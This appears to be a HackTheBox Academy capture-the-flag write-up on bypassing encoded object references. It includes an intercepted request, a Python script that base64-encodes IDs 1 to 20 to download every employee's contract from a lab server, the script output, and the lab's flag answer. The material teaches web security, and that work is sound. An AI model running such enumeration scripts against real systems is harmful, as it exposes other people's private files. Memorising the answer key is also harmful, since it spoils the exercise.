

# Section 09: Bypassing Encoded References

Module: 23. Web Attacks

---

## Questions & Answers

### 1. Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.

Context:
- View the page source of the `/contracts.php` found how the uid hash is made:
```javascript
function downloadContract(uid) {
    window.location = `/download.php?contract=${encodeURIComponent(btoa(uid))}`;
}
```
- Intercept a download request got:
```bash
GET /download.php?contract=MQ%3D%3D HTTP/1.1
Host: 154.57.164.82:30867
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://154.57.164.82:30867/contracts.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
- From the `downloadContract(uid)` know that the uid is base64 encoded then url encoded, we can confirm it by decode the `MQ%3D%3D`:

- Create the automated Python script:
```python
# Code created by Claude
import base64
import requests

TARGET_HOST = "154.57.164.82:30867"
TARGET_URL = f"http://{TARGET_HOST}/download.php"

headers = {
    "Accept-Language": "en-US,en;q=0.9",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": f"http://{TARGET_HOST}/contracts.php",
    "Connection": "keep-alive",
}

for i in range(1, 21):
    # base64-encode the plain integer; requests will URL-encode the param automatically
    encoded_contract = base64.b64encode(str(i).encode()).decode()

    res = requests.get(
        TARGET_URL,
        headers=headers,
        params={"contract": encoded_contract},
    )

    if res.status_code != 200:
        print(f"[contract={i} -> {encoded_contract}] HTTP {res.status_code}, skipping")
        continue

    content_type = res.headers.get("Content-Type", "")
    content_disp = res.headers.get("Content-Disposition", "")

    print(f"[contract={i} -> {encoded_contract}] {len(res.content)} bytes, "
          f"type={content_type}, disposition={content_disp}")

    # Optionally save the file if it looks like a real download (not an HTML error page)
    if "text/html" not in content_type:
        filename = f"contract_{i}.bin"
        # try to pull a nicer filename from Content-Disposition if present
        if "filename=" in content_disp:
            filename = content_disp.split("filename=")[-1].strip('"; ')
        with open(filename, "wb") as f:
            f.write(res.content)
        print(f"  saved -> {filename}")
```
- Result of the code:
```bash
  saved -> contract_c4ca4238a0b923820dcc509a6f75849b.pdf
[contract=2 -> Mg==] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_c81e728d9d4c2f636f067f89cc14862c.pdf"
  saved -> contract_c81e728d9d4c2f636f067f89cc14862c.pdf
[contract=3 -> Mw==] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_eccbc87e4b5ce2fe28308fd9f2a7baf3.pdf"
  saved -> contract_eccbc87e4b5ce2fe28308fd9f2a7baf3.pdf
[contract=4 -> NA==] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_a87ff679a2f3e71d9181a67b7542122c.pdf"
  saved -> contract_a87ff679a2f3e71d9181a67b7542122c.pdf
[contract=5 -> NQ==] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_e4da3b7fbbce2345d7772b0674a318d5.pdf"
  saved -> contract_e4da3b7fbbce2345d7772b0674a318d5.pdf
[contract=6 -> Ng==] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_1679091c5a880faf6fb5e6087eb1b2dc.pdf"
  saved -> contract_1679091c5a880faf6fb5e6087eb1b2dc.pdf
[contract=7 -> Nw==] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_8f14e45fceea167a5a36dedd4bea2543.pdf"
  saved -> contract_8f14e45fceea167a5a36dedd4bea2543.pdf
[contract=8 -> OA==] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_c9f0f895fb98ab9159f51fd0297e236d.pdf"
  saved -> contract_c9f0f895fb98ab9159f51fd0297e236d.pdf
[contract=9 -> OQ==] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_45c48cce2e2d7fbdea1afc51c7c6ad26.pdf"
  saved -> contract_45c48cce2e2d7fbdea1afc51c7c6ad26.pdf
[contract=10 -> MTA=] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_d3d9446802a44259755d38e6d163e820.pdf"
  saved -> contract_d3d9446802a44259755d38e6d163e820.pdf
[contract=11 -> MTE=] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_6512bd43d9caa6e02c990b0a82652dca.pdf"
  saved -> contract_6512bd43d9caa6e02c990b0a82652dca.pdf
[contract=12 -> MTI=] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_c20ad4d76fe97759aa27a0c99bff6710.pdf"
  saved -> contract_c20ad4d76fe97759aa27a0c99bff6710.pdf
[contract=13 -> MTM=] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_c51ce410c124a10e0db5e4b97fc2af39.pdf"
  saved -> contract_c51ce410c124a10e0db5e4b97fc2af39.pdf
[contract=14 -> MTQ=] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_aab3238922bcc25a6f606eb525ffdc56.pdf"
  saved -> contract_aab3238922bcc25a6f606eb525ffdc56.pdf
[contract=15 -> MTU=] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_9bf31c7ff062936a96d3c8bd1f8f2ff3.pdf"
  saved -> contract_9bf31c7ff062936a96d3c8bd1f8f2ff3.pdf
[contract=16 -> MTY=] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_c74d97b01eae257e44aa9d5bade97baf.pdf"
  saved -> contract_c74d97b01eae257e44aa9d5bade97baf.pdf
[contract=17 -> MTc=] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_70efdf2ec9b086079795c442636b55fb.pdf"
  saved -> contract_70efdf2ec9b086079795c442636b55fb.pdf
[contract=18 -> MTg=] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_6f4922f45568161a8cdf4ad2299f6d23.pdf"
  saved -> contract_6f4922f45568161a8cdf4ad2299f6d23.pdf
[contract=19 -> MTk=] 0 bytes, type=application/pdf, disposition=attachment; filename="contract_1f0e3dad99908345f7439f8ffabdffc4.pdf"
  saved -> contract_1f0e3dad99908345f7439f8ffabdffc4.pdf
[contract=20 -> MjA=] 30 bytes, type=application/pdf, disposition=attachment; filename="contract_98f13708210194c475687be6106a3b84.pdf"
  saved -> contract_98f13708210194c475687be6106a3b84.pdf
```
- At `contract=20` got `contract_98f13708210194c475687be6106a3b84.pdf` with 30 bytes, read that file:
```bash
┌─[eu-academy-2]─[10.10.14.37]─[htb-ac-2162140@htb-firqpqxx8o-htb-cloud-com]─[~]
└──╼ [★]$ cat contract_98f13708210194c475687be6106a3b84.pdf
HTB{h45h1n6_1d5_w0n7_570p_m3}
```

**Answer:** `HTB{h45h1n6_1d5_w0n7_570p_m3}`

---

[Back to Module Index](./README.md)
